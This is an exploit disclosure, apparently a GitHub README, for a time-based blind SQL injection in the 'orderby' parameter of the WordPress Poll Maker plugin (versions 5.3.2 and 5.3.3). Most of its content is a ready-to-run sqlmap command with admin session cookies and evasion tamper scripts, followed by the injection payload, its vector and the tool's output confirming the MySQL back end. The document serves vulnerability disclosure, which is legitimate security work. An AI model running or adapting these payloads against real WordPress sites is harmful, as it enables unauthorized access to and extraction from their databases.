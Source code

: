 ### Exploit Title: WordPress Poll Maker Plugin SQL Injection 
### Date: 2024-07-11
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor: https://ays-pro.com/wordpress/poll-maker
### Version 5.3.2 , 5.3.3

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `Poll Maker`  > `Results` > https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc
     
3. Search for orderby parameter.

## SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc" --cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720874410|daS0lCfo568OgTQNkSLPI9aURdg7g9e3OnbV4ihMTBf|557daf9ff0e48a2de0eea2789b9c6ae90fe5f0c7676b6f7a3a5559a911e5058b; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720874410|daS0lCfo568OgTQNkSLPI9aURdg7g9e3OnbV4ihMTBf|073a862ad3287a707abe5357a183ff1e7f4ebe2f505c07a7bbd8248685364a01; wordpress_test_cookie=WP Cookie check; wp_lang=en_US; wp-settings-1=editor=html; wp-settings-time-1=1720701610" --batch --dbms=mysql --threads=10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 -p orderby

## RESULT

Parameter: orderby (GET)
    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: page=poll-maker-ays-results&orderby=id PROCEDURE ANALYSE(EXTRACTVALUE(3054,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x58655778))))),1)# wcUc&order=desc
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---

---
[08:03:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:03:59] [INFO] the back-end DBMS is MySQL
[08:03:59] [PAYLOAD] id/**/PrOCEdUrE/**/analySE(exTRActvALuE(6707,CoNcAT(0x5c,(iF((VeRSION()/**/LikE/**/0x254d61726961444225),BenChmaRk(5000000,MD5(0x6e454541)),6707)))),1)#/**/ZrRh
[08:03:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:04:01] [DEBUG] used the default behavior, running in batch mode
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Poll-Maker-SQL-Injection/main/11.png">



